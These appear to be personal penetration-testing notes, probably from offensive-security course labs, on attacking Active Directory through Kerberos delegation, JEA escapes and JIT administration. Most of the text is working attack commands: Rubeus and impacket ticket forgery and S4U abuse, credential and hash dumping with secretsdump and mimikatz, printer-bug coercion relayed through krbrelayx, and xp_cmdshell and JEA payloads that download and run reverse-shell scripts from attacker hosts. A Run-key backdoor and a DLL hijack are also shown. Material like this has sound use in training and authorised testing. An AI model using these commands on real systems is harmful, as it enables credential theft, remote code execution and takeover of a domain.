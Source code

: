 # Attacking AD

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

<pre class="language-powershell"><code class="lang-powershell">iex (new-object net.web-client).downloadstring('http://192.168.45.198/PowerView.ps1')
<strong>Get-DomainComputer -Unconstrained
</strong># Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
</code></pre>

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
        *   ```powershell
            # Dump as domain user
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            # Dump as built-in admin
            impacket-secretsdump administrator:2J8u{2e@192.168.187.121
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            # git clone https://github.com/dirkjanm/krbrelayx.git
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Importing the ccache file
        * ```bash
          mv DC01\$@CORP.COM_krbtgt@CORP.COM.ccache administrator.ccache
          export KRB5CCNAME=administrator.ccache
          ```
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11) (1) (1).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E /nowrap
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt

    # .\Rubeus.exe s4u /ticket:doIEpjCCBKKgA… /impersonateuser:administrator /msdsspn:cifs/file01.evil.com /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  *   ```sql
      EXECUTE AS LOGIN = 'sa';
      EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
      EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
      EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
      ```


* To troubleshoot: use the -dc-ip flag and the cifs/file02 SPN for the getST part and -target-ip for the psexec part
  * ```bash
    # Obtain TGT for service acc
    impacket-getTGT cowmotors.com/svc_file

    # Obtain Service Ticket for cifs/file02 as administrator
    export KRB5CCNAME=svc_file.ccache
    impacket-getST -spn cifs/file02 -impersonate administrator -dc-ip DC01 cowmotors.com/svc_file -k -no-pass

    # Check new kerberos ticket
    mv administrator@cifs_file02@COWMOTORS.COM.ccache administrator.ccache
    export KRB5CCNAME=administrator.ccache
    klist

    # PSExec to file02
    impacket-psexec administrator@file02 -target-ip file02 -k -no-pass
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

### Enumeration

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


  * OR Specifying domain
    *   ```powershell
        Get-DomainComputer -Domain ops.comply.com | Get-ObjectAcl -ResolveGUIDs | Foreach-Object { $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
        ```



### Exploitation

* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      # impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' ops.comply.com/FILE06$ -hashes :c81c9...
      # impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' COWMOTORS-INT.COM/TERENCE.FORD -k -no-pass -dc-host=dc02.cowmotors-int.com
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      # impacket-rbcd -k -no-pass -action write -delegate-to "web01$" -delegate-from "myComputer$" COWMOTORS-INT.COM/TERENCE.FORD
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      # impacket-getST -spn 'cifs/web01.cowmotors-int.com' -impersonate Administrator -dc-ip 'dc02.cowmotors-int.com' 'cowmotors-int/myComputer$:h4x'
      ```


* Execute Commands as Administrator
  *   <pre class="language-powershell"><code class="lang-powershell"><strong>mv Administrator@cifs_backup01.corp.com@CORP.COM.ccache administrator.ccache
      </strong>export KRB5CCNAME=/home/kali/Documents/offsec/challenges/7/administrator.ccache
      impacket-psexec administrator@backup01.corp.com -k -no-pass
      </code></pre>



[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

</details>

<details>

<summary>Exploiting Just Enough Administration (JEA)</summary>

* L**imits administrative privileges** by allowing users to run only specific **approved** commands via PowerShell

- View PowerShell Command History
  *   ```powershell
      (Get-PSReadlineOption).HistorySavePath
      type C:\Users\mary\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
      ```


- Detect if JEA is Enabled on the Target Machine
  *   ```powershell
      Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
      ```


- **Check if commands are restricted:** ![](<../.gitbook/assets/image (4) (1) (1) (1) (1).png>)
  *   <pre class="language-powershell"><code class="lang-powershell">[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
      # NoLanguageMode --> likely restricted by JEA.

      $ExecutionContext.SessionState.LanguageMode
      <strong>#If full or contrained:
      </strong>&#x26; {IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.211/runall.ps1')}
      </code></pre>


- Enumerate Available Commands in the JEA Session
  *   ```powershell
      Get-Command
      ```


  * If `Copy-Item`, `Move-Item`, or `New-Item` is available, you can **drop malicious payloads**:
    *   ```powershell
        # Exfiltrate sensitive files
        Copy-Item -Path C:\Windows\System32\drivers\etc\hosts -Destination C:\shares\mary\stolen_hosts.txt
        # DLL hijacking for privilege escalation
        Copy-Item C:\shares\payload.dll -Destination "C:\Program Files\VulnerableApp\malicious.dll"
        ```


  * If `Start-Process` is available, it can execute **arbitrary processes**:
    *   ```powershell
        Start-Process "cmd.exe" -ArgumentList "/c whoami"
        Start-Process "powershell.exe" -ArgumentList "-NoP -NonI -W Hidden -c IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/revshell.ps1')"
        ```


  * If `New-Item` and `Set-ItemProperty` are available, registry values can be modified to establish **persistence**:
    * ```powershell
      New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Backdoor" -Value "C:\malware.exe"
      ```
- Proof-of-Concept: Copying dll to program folder for DLL Hijacking
  * ```powershell
    copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
    ```

</details>

<details>

<summary>Exploiting Just-In-Time Administration Theory</summary>

* Providing temporary, limited administrative access to resources
* Once the time is up, the privileges are revoked automatically
* Requires Privileged Access Management Feature (PAM) to be enabled

## Enumeration

*   ```powershell
    Import-Module .\Microsoft.ActiveDirectory.Management.dll
    Get-Command -Module Microsoft.ActiveDirectory.Management | Where-Object { $_.Name -like "Get-*" }
    ```

    <figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>


*   ```powershell
    Get-ADOptionalFeature -Filter *
    ```

    <figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>
*   ```powershell
    Get-NetUser mary | select memberof
    Get-NetGroup j_approve | select member
    ```



## Enumerate GPOs available in the domain

*   ```powershell
    Get-NetGPO | select displayname
    Get-NetGPO l_web01
    ```

    <figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Copy paste path to explorer
* View the group policies in [\\\corp.com\SysVol\corp.com\Policies\\{99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6}\Machine\Preferences\Groups](file://corp.com/SysVol/corp.com/Policies/%7B99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6%7D/Machine/Preferences/Groups)
  *

      <figure><img src="../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption><p>Adding la_web to local admin group (RID: 544) on WEB01</p></figcaption></figure>


*   ```powershell
    klist purge
    #So that we can request the new kerberos ticket
    Enter-PSSession -ComputerName WEB01
    ```



</details>
